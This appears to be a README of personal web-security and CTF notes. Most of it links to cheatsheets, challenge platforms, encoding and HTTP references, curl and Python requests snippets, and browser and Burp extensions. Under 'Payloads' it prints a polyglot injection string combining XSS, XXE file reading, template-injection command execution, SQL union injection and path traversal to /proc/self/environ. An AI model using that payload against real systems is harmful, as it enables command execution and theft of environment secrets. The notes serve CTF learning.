


## Web - README

- [client](./client)
- [server](./server)
- https://gf.dev/learn/
- https://docs.authlib.org/en/stable/
- https://developer.mozilla.org/en-US/docs/
- https://cyber.gouv.fr/publications/securiser-un-site-web

### Cheatsheets

- https://websecblog.com/cheatsheet/
- https://github.com/GrrrDog/weird_proxies
- https://book.hacktricks.xyz/welcome/readme
- https://github.com/swisskyrepo/PayloadsAllTheThings
- https://github.com/w181496/Web-CTF-Cheatsheet
- https://github.com/dustyfresh/PHP-vulnerability-audit-cheatsheet


## Challenges

- https://portswigger.net/web-security/
- https://alert.zeyu2001.com/
- https://github.com/Learn-by-doing/xss
- https://github.com/Learn-by-doing/sql-injection
- https://www.nzeros.me/2023/08/07/securinetsminictf2k22/
- https://tryhackme.com/module/http-request-smuggling

### Payloads 

- https://swisskyrepo.github.io/blog/payload-plz/
- https://github.com/minimaxir/big-list-of-naughty-strings/

```txt
<?or 1
--[.>],[.</script>,$FLAG\"]|*?><!DOCTYPE x[<!ENTITY x SYSTEM "/dev/shm/flag.txt">]><z>&x;</z><svg/onload=alert(flag)>&x;{system("env")}{*{{["env"]|map("system")and lipsum.__globals__.os.environ}}*}<%=`env`%>'
union select*,2,*from flag;env
 -o -exec env ;
/../../../../../../../../../../proc/self/environ
```

### Unsecure website in Docker containers

- https://devdocs.io/
- https://docs.docker.com/samples/react/


## Encodings

- https://en.wikipedia.org/wiki/Portable_character_set
- https://blog.unicode.org/2022/03/avoiding-source-code-spoofing.html
- https://stackoverflow.com/questions/1728376/get-a-list-of-all-the-encodings-python-can-encode-to
- https://www.joelonsoftware.com/2003/10/08/the-absolute-minimum-every-software-developer-absolutely-positively-must-know-about-unicode-and-character-sets-no-excuses/

### Python

#### Escape sequences

```bash
for c in string.printable:
    if c in string.punctuation:
        c = "\\" + c
```

#### Zlib compression

- https://pypi.org/project/chardet/
- https://docs.python.org/3.13/library/zlib.html#zlib.decompress
- https://stackoverflow.com/questions/3178566/how-can-i-deflate-with-a-command-line-tool-to-extract-a-git-object

```bash
# raw deflate
python3 -c "import sys,zlib;sys.stdout.buffer.write(zlib.decompressobj(-15).decompress(sys.stdin.buffer.read()))" < /tmp/data
```


## HTTP requests

- https://http.dev/headers
- https://developer.mozilla.org/en-US/docs/Web/HTTP
- https://www.w3schools.com/tags/ref_httpmethods.asp
- https://www.geeksforgeeks.org/php/difference-between-http-get-and-post-methods/
- https://regilero.github.io/security/english/2015/10/04/http_smuggling_in_2015_part_one/
- https://docs.python-requests.org/en/latest/user/quickstart/#post-a-multipart-encoded-file
- https://docs.python-requests.org/en/latest/user/quickstart/#more-complicated-post-requests
- https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/403-and-401-bypasses.html





```txt
- POST requests are never cached
- POST requests have no restrictions on data length
- POST is a little safer than GET because the parameters are not stored in browser history or in web server logs (by default)
```

```py
files = {'file': open('report.xls', 'rb')}
r = requests.post(url, files=files)
r.text
r.status_code
```

### Curl

- https://curl.se/docs/httpscripting.html
- https://everything.curl.dev/http/post/postvspost.html

```txt
-d/--data-... = Content-Type: application/x-www-form-urlencoded
-F/--form-... = Content-Type: multipart/form-data


# avoid escaping special chars

--data-raw
--form-string
```

```bash
# silent: get headers
curl -sI https://yahoo.com 
curl -s https://yahoo.com -w "HTTP Code: %{http_code}" -o /dev/null
```

### Devtools

- https://firefox-source-docs.mozilla.org/devtools-user/    # ff`Network->Right Click -> Edit & Resend`
- https://github.com/jaredwilli/devtools-cheatsheet         #chrome

### Extensions

- https://portswigger.net/burp/documentation/desktop/external-browser-config/certificate # Installing burp certificate for any browser with foxyproxy (intercepting https)

#### Firefox

- [Hacktools](https://addons.mozilla.org/fr/firefox/addon/hacktools/)
- [Wappalyzer](https://addons.mozilla.org/fr/firefox/addon/wappalyzer/) (**Techno discovery** : Java -> /actuator; /metrics)
- [FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) (Forwarding to **Burp Suite** (port 8080))
- [Retire.js](https://addons.mozilla.org/fr/firefox/addon/retire-js/)
- [Shodan](https://addons.mozilla.org/en-US/firefox/addon/shodan-addon/)

#### Chrome (only)

- [Shodan](https://chromewebstore.google.com/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap)
- [Tempmail](https://chromewebstore.google.com/detail/temp-mail-disposable-temp/inojafojbhdpnehkhhfjalgjjobnhomj)
- https://github.com/trufflesecurity/Trufflehog-Chrome-Extension

#### Any browser

- https://github.com/davtur19/DotGit, [git-dumper](https://github.com/arthaud/git-dumper) once a repo is detected
- https://github.com/RetireJS/retire.js
- https://github.com/tomnomnom/wappalyzer
- https://github.com/kevin-mizu/domloggerpp
- https://github.com/ElSicarius/findalllinks
- https://github.com/foxyproxy/browser-extension

#### Burp

- [Bypass WAF](https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c)
- [Hackvertor](https://github.com/hackvertor/hackvertor)
- [JWT](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6)
- [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
- [Param Miner](https://github.com/portswigger/param-miner)
- https://github.com/snoopysecurity/awesome-burp-extensions
